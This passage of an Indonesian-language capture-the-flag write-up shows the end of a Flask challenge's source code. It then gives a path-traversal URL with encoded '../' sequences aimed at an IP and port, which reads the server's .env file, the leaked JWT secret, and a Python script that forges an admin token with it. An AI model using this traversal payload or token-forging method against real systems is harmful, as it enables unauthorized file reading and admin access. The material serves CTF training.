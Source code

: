 ```python
with open(FLAG_FILE, 'r') as f:
flag = f.read().strip()
except FileNotFoundError:
print(f"ERROR: Flag file not found at {FLAG_FILE}")
flag = "CTF Flag file missing on server."
except Exception as e:
print(f"ERROR: Could not read flag file: {e}")
flag = "Error loading CTF flag."

return render_template('admin.html', flag=flag)
else:
response = make_response(render_template('unauthorized.html'), 401)
response.headers['WWW-Authenticate'] = 'Basic realm="Admin Required"'
return response

@app.route('/about')
def about():
return render_template('about.html')

@app.route('/observations')
def observations():
return render_template('observations.html')

@app.route('/unauthorized')
def unauthorized():
return render_template('unauthorized.html')

if __name__ == '__main__':
app.run(debug=False, host='0.0.0.0', port=8082)
```


Ok dari program tersebut kita bisa tau algoritma buat token admin login nya, tapi kita belum tau secret key buat token nya, dari situ diketahui kalo secret disimpan di .env

Kita coba akses file env nya melalui teknik yang sama

http://134.209.102.23:8082/?read_file=/%2e%2e%2f/%2e%2e%2f/%2e%2e%2f/%2e%2e%2f.env

```
SECRET_KEY=wildlife- 2025 - fit-challenge-secret
```

Karena udah dapet semua tinggal kita buat program untuk generate token berdasarkan algoritma dan secret key tersebut.


```python
import jwt
import datetime

# From app.py
SECRET_KEY = "wildlife-2025-fit-challenge-secret"
JWT_ALGORITHM = "HS256"

def generate_admin_token():
payload = {
'role': 'admin',
'authorized': True,
'exp': datetime.datetime.utcnow() + datetime.timedelta(hours=1) # Token
expires in 1 hour
}
token = jwt.encode(payload, SECRET_KEY, algorithm=JWT_ALGORITHM)
return token

if __name__ == '__main__':
admin_token = generate_admin_token()
```